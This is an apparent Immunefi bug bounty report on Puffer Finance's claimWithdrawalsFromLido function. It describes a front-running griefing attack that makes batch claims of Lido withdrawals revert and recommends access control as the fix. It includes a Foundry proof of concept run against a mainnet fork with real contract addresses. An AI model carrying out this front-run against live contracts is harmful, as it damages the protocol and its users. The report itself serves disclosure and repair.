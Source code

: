
# User can frontrun claim transaction to make claim failed if the protocol wants to claim multiple request Id in batch.

Submitted on Sat Feb 24 2024 00:46:29 GMT-0400 (Atlantic Standard Time) by @ladboy233 for [Boost | Puffer Finance](https://immunefi.com/bounty/pufferfinance-boost/)

Report ID: #28698

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
https://etherscan.io/address/0x39ca0a6438b6050ea2ac909ba65920c7451305c1#code#F1#L106

```
  function claimWithdrawalsFromLido(uint256[] calldata requestIds) external virtual {
        VaultStorage storage $ = _getPufferVaultStorage();

        // Tell our receive() that we are doing a Lido claim
        $.isLidoWithdrawal = true;

        for (uint256 i = 0; i < requestIds.length; ++i) {
            bool isValidWithdrawal = $.lidoWithdrawals.remove(requestIds[i]);
            if (!isValidWithdrawal) {
                revert InvalidWithdrawal();
            }

            // slither-disable-next-line calls-loop
            _LIDO_WITHDRAWAL_QUEUE.claimWithdrawal(requestIds[i]);
        }

        // Reset back the value
        $.isLidoWithdrawal = false;
        emit ClaimedWithdrawals(requestIds);
    }
```

Once the admin request the claim via LIDO withdrawal queue

anyone can call the function claimWithdrawalsFromLido and pass in an array of requests Ids to claim the ETH.

the code loops through the request  Ids and call 

```
_LIDO_WITHDRAWAL_QUEUE.claimWithdrawal(requestIds[i]);
```

one by one,

the problem is that suppose admin / protocol wants to withdraw using request Id [10000, 10001 and 10002]

malicious user can frontrun the claimWithdrawalsFromLido and calls the function with only the request Id [10000]

then when the admin's request execute, the whole transaction will revert because we cannot withdraw ETH using the request id 10000 twice.

the recommendation is adding access control to the function claimWithdrawalsFromLido
        
## Proof of concept
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";

interface ILidoWithdrawalQueue {
    function requestWithdrawals(uint256[] calldata _amounts, address _owner)
        external
        returns (uint256[] memory requestIds);

    function claimWithdrawal(uint256 _requestId) external;
}


contract CounterTest is Test {

    function setUp() public {

    }

    function withdrawETH(uint256[] memory requestIds) public {

        address user = 0xE5350E927B904FdB4d2AF55C566E269BB3df1941;
        
        vm.startPrank(user);

        for (uint256 i = 0; i < requestIds.length; i++) {
            ILidoWithdrawalQueue lido = ILidoWithdrawalQueue(0x889edC2eDab5f40e902b864aD4d7AdE8E412F9B1);
            lido.claimWithdrawal(requestIds[i]);
        }

        vm.stopPrank();

    }

    function testWithdrawalRegular() public {

        // block number 19290411
    
        address user = 0xE5350E927B904FdB4d2AF55C566E269BB3df1941;

        ILidoWithdrawalQueue lido = ILidoWithdrawalQueue(0x889edC2eDab5f40e902b864aD4d7AdE8E412F9B1);

        uint256[] memory requestIds = new uint256[](2);
        requestIds[0] = 27139;
        requestIds[1] = 27140;
        
        withdrawETH(requestIds);

    }

    function testWithdrawalFrontrun() public {

        // block number 19290411
    
        address user = 0xE5350E927B904FdB4d2AF55C566E269BB3df1941;

        ILidoWithdrawalQueue lido = ILidoWithdrawalQueue(0x889edC2eDab5f40e902b864aD4d7AdE8E412F9B1);

        uint256[] memory requestIds = new uint256[](2);
        requestIds[0] = 27139;
        requestIds[1] = 27140;
        
        uint256[] memory frontrunIds = new uint256[](1);
        frontrunIds[0] = 27139;

        withdrawETH(frontrunIds);

        withdrawETH(requestIds);

    }
}
```

first we can run

```
forge test -vvv --match-test "testWithdrawalRegular" --fork-url https://eth.llamarpc.com --fork-block-number 19290411
```
and the output is

```
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/Counter.t.sol:CounterTest
[PASS] testWithdrawalRegular() (gas: 85592)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 12.00ms
```

that is fine, user wants to withdraw with request id 27139 and 27140

However, if we run 

```
forge test -vvv --match-test "testWithdrawalFrontrun" --fork-url https://eth.llamarpc.com --fork-block-number 19290411
```

transaction revert, because before user withdraw with request id [27139, 27140]

user can frontrun and only withdraw [27139]

```
      uint256[] memory requestIds = new uint256[](2);
        requestIds[0] = 27139;
        requestIds[1] = 27140;
        
        uint256[] memory frontrunIds = new uint256[](1);
        frontrunIds[0] = 27139;

        withdrawETH(frontrunIds);

        withdrawETH(requestIds);
```